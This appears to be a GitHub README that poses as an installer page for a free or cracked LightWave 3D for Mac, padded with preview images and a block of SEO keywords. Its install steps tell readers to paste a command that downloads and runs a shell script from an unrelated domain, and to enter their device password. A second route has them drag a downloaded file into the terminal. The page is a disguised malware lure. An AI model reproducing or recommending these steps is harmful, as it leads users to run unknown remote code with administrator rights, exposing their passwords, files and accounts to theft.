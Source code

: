 # LightWave 3D for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](lightwave-3d-mac-download.github.io)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)  

---

## 🎯 What You Unlock

- 🔹 Advanced 3D modeling and rendering tools  
- 🎨 High-quality texture mapping and animation features  
- 🚀 Real-time viewport rendering and scene editing  
- 🛠 Customizable workflow and plugin support  
- 🔐 Offline activation for uninterrupted usage  

---

## 🖼 Preview

![LightWave 3D Trial Screen](https://www.awn.com/sites/default/files/styles/original/public/image/featured/1025115-lightwave-3d-offers-free-90-day-lightwave-trial.png?itok=Kg6yQZ0-)  


![LightWave 3D Modelling](https://www.iamag.co/wp-content/uploads/2013/11/Nevron_003.jpg)  


![LightWave 3D Animation](https://i.namu.wiki/i/uKK4deJ5uHcBwf4LZLEP_7cWhuEL02L3E_B35niSdAAo4bJm3cMrSWpbK1HI8W0CjpdYYj7XDGXaIVIFmQAJeQ.webp)  


---

## 🔍 SEO Keywords

lightwave 3d, lightwave software, lightwave 3d download, lightwave 3d software, lightwave newtek, newtek lightwave 3d, lightwave 3d download free, lightwave 3d mac, lightwave 3d tutorial, lightwave 3d offline setup, lightwave 3d activation, lightwave 3d rendering, lightwave 3d modeling, lightwave 3d animation, lightwave 3d full version, lightwave 3d no login, lightwave 3d offline license, lightwave 3d 3d design, lightwave 3d professional tools, lightwave 3d workflow, lightwave 3d texture mapping, lightwave 3d plugin support, lightwave 3d user guide, lightwave 3d mac download, lightwave 3d 3d software mac
